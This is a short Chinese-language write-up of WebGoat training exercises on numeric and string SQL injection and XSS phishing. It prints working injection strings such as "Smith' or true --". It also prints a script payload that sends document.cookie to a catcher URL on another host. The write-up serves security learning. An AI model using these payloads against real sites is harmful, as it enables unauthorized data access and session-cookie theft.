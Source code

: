 ### SQL 注入

#### Numeric SQL Injection

- 在原`POST`请求中添加` or true`即可
- 通过之后, 课程变为参数化查询, 输入数据是参数而不是SQL语句的一部分, 不能再进行SQL注入攻击
- 不过既然返回结果, 可以显示在界面上, 那么可以试试能否使用`XSS`攻击: <br>
![使用<h1>标签](img/add-a-h1.jpg)<br>
  页面成功渲染！<br>
![成功渲染](img/successful-render.jpg)
- 然后愉快地弹框: <br>
![exXSS](img/numeric-sql-ex-xss.jpg)

#### String SQL Injection

- 与`Numeric SQL Injection`是类似的, 只是多了引号, `Smith' or true --`/`Smith' or '1'='1`即可(有很多方法来匹配引号)

### XSS

#### Phishing with XSS

- 题目要求将用户凭据发送到指定的网址
- 服务器并未对用户输入进行任何加工
- 使用`<script>document.write('<img src=http://192.168.56.9:8087/WebGoat/catcher?PROPERTY=yes?'+document.cookie+'  "/>');</script>`就可以完成将`Cookie`发送给服务器的操作
- 参考答案的做法比较复杂，先是编写了一个`HTML`表单，提交后，受害者会在表单填写数据并提交，拦截受害者发送的数据，转发到指定网址
